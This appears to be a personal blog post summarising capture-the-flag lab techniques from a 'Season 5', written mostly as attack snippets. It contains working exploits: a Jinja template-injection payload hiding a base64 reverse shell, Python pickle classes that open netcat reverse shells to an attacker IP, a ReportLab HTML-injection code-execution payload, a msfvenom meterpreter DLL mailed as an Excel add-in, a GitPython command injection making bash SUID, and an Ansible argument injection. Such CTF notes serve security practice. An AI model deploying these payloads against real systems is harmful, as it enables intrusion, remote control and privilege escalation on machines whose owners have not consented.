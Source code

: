 ```yaml
---
title: "Season 5 Summary"
date: 2024-08-21
---
```



Overall I learned a lot and these are some of my favorite snippets that i definitely will be keeping. SPOILERS REMOVED don't worry.

## SSTI With Jinja

Context: Obtaining Foothold using Server Side Template Injection with Jinja

I can see that I can by pass with this payload

```html
invoice_id=&form_type=scannable_invoice&qr_link=https%3A%2F%2Fbruhaps.htb%2Fstatic%2Fqr_code%2Fqr_code_5868828307.png" {{'><script>;</script>'|safe}}
```

### Final SSTI Payload
```
invoice_id=&form_type=scannable_invoice&qr_link={% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4xMC4xNC43LzQ0NDQ7IC9iaW4vc2ggPCYxOTYgPiYxOTYgMj4mMTk2 | base64 -d | bash")["read"]() %} a {% endwith %}
```

On attack machine
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.7] from (UNKNOWN) [10.10.11.12] 46716

ls
app.py
static
templates
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cheeese:/opt/app$ ls
```


---
## Pickle RCE

Context: This was a machine learning server, and I was a low privilege user related to the ML training.

https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/

```
import pickle import base64 import os class RCE: def __reduce__(self): cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f') return os.system, (cmd,) if __name__ == '__main__': pickled = pickle.dumps(RCE()) print(base64.b64encode(pickled)) # or print(base64.urlsafe_b64encode(pickled))
```

### Final Python RCE

```python
from clearml import Task
import pickle,os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.16 4444 >/tmp/f',))


command = RunCommand()


task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"], output_uri=True)

task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")


with open('pickle_artifact.pkl','wb') as f:
    pickle.dump(command,f)

```

---
## RCE Via Html Injection

Context: Obtain Foothold using Htmli

https://github.com/Sudistark/BB-Writeups/blob/main/2023/CVE-2023-33733-rce-via-htmli-in-reportlab.md

Start Listener

```
nc -lvnp 4444
```

Payload used for rev shell

```html
ASSS<font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlBASE64PAYLOADAKQA=') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font>
```

---
## Sending a malicious XLL via email

Context: Obtaining Foothold by sending an email allowing excel files. 

https://github.com/edparcell/HelloWorldXll

Generate payload with msfvenom
```bash
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.68 LPORT=4444 -f dll -o ex.dll


cp ex.dll ex.xll
```


Send the malicious `.xll`
```bash
swaks --to accounts@BRUH.htb --from assinine@BRUH.htb --server MAINFRAME.BRUH.htb --port 25 --header "Subject: test" --body "test" --attach @ex.xll
```


```cmd
C:\>whoami
whoami
AHHHHH YOU THOUGHT
```

---

## Priv Esc with GitPython

Context: User Foothold obtaining root.

Prod Perms

```
User prod may run the following commands on BRUH:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Contents of `clone_prod_change.py`

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

https://github.com/gitpython-developers/GitPython/issues/1515
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858


```
'ext::sh -c chmod% 4777% /bin/bash'
```


## Root

```
prod@linux:~$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
bash-5.1# cat /root/root.txt
SECRET
bash-5.1# 
```

---

## Root with Ansible

Context: I had perms for Ansible runner.
### Find Ansible Hash
```C
// Version : 1 #include <stdio.h> #include <stdlib.h> #include <string.h> #include <dirent.h> #include <openssl/md5.h> #define INVENTORY_FILE "/opt/playbooks/inventory.ini" #define PLAYBOOK_LOCATION "/opt/playbooks/" #define ANSIBLE_PLAYBOOK_BIN "/usr/bin/ansible-playbook" #define ANSIBLE_GALAXY_BIN "/usr/bin/ansible-galaxy" #define AUTH_KEY_HASH "0feda17076d793c2ef2870d7427ad4ed" int check_auth(const char* auth_key) { unsigned char digest[MD5_DIGEST_LENGTH]; MD5((const unsigned char*)auth_key, strlen(auth_key), digest); char md5_str[33]; for (int i = 0; i < 16; i++) { sprintf(&md5_str[i*2], "%02x", (unsigned int)digest[i]); }
```

### Crack the Ansible hash
```
hashcat -a3 -m0 myhash.txt UH4565jkl?u?u?u?u --self-test-disable
```

```
HASH:RESult
```

### Root Access

Create json file and insert command injection.

```
{
 "run": {
    "action": "install",
    "role_file": "archive.tar;bash"},
 "auth_code": "CRACKEDRESULT"
}
```

